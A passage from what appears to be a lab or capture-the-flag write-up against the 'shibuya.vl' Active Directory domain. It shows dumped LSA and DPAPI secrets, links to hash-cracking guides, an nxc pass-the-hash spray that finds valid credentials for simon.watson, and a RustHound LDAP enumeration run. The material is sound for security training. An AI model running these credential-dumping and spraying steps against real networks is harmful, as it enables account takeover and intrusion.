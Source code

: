 ```
History: False
Machine key (hex): b31a4d81f2df440f806871a8b5f53a15de12acc1
User key(hex): e14c10978f8ee226cbdbcbee9eac18a28b006d06
=== LSA DPAPI secret ===
History: True
Machine key (hex): 80be45ec04a3ee662b5691dffc0d8b2d8e937437
User key(hex): e8bb42e7c89a065dd946983b775ad69a921511e5
=== LSASecret NL$KM ===

History: False
Secret: 
00000000:  92 b9 89 ef 84 2f d6 55  73 67 31 8f e0 02 02 66   |...../.Usg1....f|
00000010:  f9 81 42 68 8c 3b df 5d  0a e5 ba f2 4a 2c 43 0e   |..Bh.;.]....J,C.|
00000020:  1c c5 4f 40 1e f5 98 38  2f a4 17 f3 e9 d9 23 e3   |..O@...8/.....#.|
00000030:  d1 49 fe 06 b3 2c a1 1a  cb 88 e4 1d 79 9d ae 97   |.I...,......y...|
=== LSASecret NL$KM ===

History: True
Secret: 
00000000:  92 b9 89 ef 84 2f d6 55  73 67 31 8f e0 02 02 66   |...../.Usg1....f|
00000010:  f9 81 42 68 8c 3b df 5d  0a e5 ba f2 4a 2c 43 0e   |..Bh.;.]....J,C.|
00000020:  1c c5 4f 40 1e f5 98 38  2f a4 17 f3 e9 d9 23 e3   |..O@...8/.....#.|
00000030:  d1 49 fe 06 b3 2c a1 1a  cb 88 e4 1d 79 9d ae 97   |.I...,......y...|
============== SOFTWARE hive secrets ==============
default_logon_user: 
default_logon_domain: 
default_logon_password: None
```
We can try cracking `Simon.Watson`'s cached credentials, but it won't crack
- [SecretsDump Demystified](https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b)
- [Cracking mscash / mscache with HashCat](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials#cracking-mscash-mscache-with-hashcat)

We could dump all users with powerview and spray the hashes. The operator's one work for `simon.watson`
```
└─$ nxc smb AWSJPDC0522.shibuya.vl -u users.txt -H '<REDACTED>' -k --continue-on-success
SMB         AWSJPDC0522.shibuya.vl 445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         AWSJPDC0522.shibuya.vl 445    AWSJPDC0522      [-] shibuya.vl\Martyn.Turner:<REDACTED> KDC_ERR_PREAUTH_FAILED 
<SNIP>
SMB         AWSJPDC0522.shibuya.vl 445    AWSJPDC0522      [+] shibuya.vl\simon.watson:<REDACTED> 
<SNIP>
```

Also, we can't connect data via default LDAP port, so had to install [Rusthound](https://github.com/NH-RED-TEAM/RustHound) which has option to set LDAP port. We can also configure `iptables` to forward from `389` port to `3268` port
```
└─$ rusthound -u svc_autojoin -p '<REDACTED>' -d shibuya.vl -P 3268 -i 10.10.110.233 -f AWSJPDC0522.shibuya.vl -z
---------------------------------------------------
Initializing RustHound at 01:28:02 on 02/23/25
Powered by g0h4n from OpenCyber
---------------------------------------------------

[2025-02-22T19:28:02Z INFO  rusthound] Verbosity level: Info
[2025-02-22T19:28:02Z INFO  rusthound::ldap] Connected to SHIBUYA.VL Active Directory!
[2025-02-22T19:28:02Z INFO  rusthound::ldap] Starting data collection...
[2025-02-22T19:28:06Z INFO  rusthound::ldap] All data collected for NamingContext DC=shibuya,DC=vl

<SNIP>
```